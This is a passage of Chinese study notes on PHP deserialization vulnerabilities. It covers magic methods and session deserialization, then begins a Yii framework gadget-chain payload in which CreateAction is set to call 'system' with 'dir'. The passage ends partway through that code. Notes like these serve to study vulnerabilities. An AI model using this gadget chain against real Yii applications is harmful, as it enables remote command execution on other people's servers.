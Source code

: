 https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label2_0

### 4 常见的特殊的魔术方法

```
__construct new时候会被执行
__wakeup 反序列化时会被执行
__invoke 被调用时执行 乐死与 class()
__sleep serialize() 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，则该方法会优先被调用，然后才执行序列化操作。
```

__unserialize 如果类中同时定义了 __unserialize() 和 __wakeup() 两个魔术方法，则只有 __unserialize() 方法会生效，__wakeup() 方法会被忽略。

特殊魔术方法：https://www.php.net/manual/zh/language.oop5.magic.php#object.serialize

### 5 session反序列化

参考链接：https://blog.csdn.net/qq_43431158/article/details/99544797

### 6 R参数传地址（强相等）

### 7 php常识大小写

`php常识 —–> PHP大小写：函数名和类名不区分,变量名区分`

### 8 常见矿建的反序列化漏洞

```
这个点要自己百度搜索了
```

记载yii的框架一个

```
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'dir';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters['close'] = [new CreateAction(), 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
```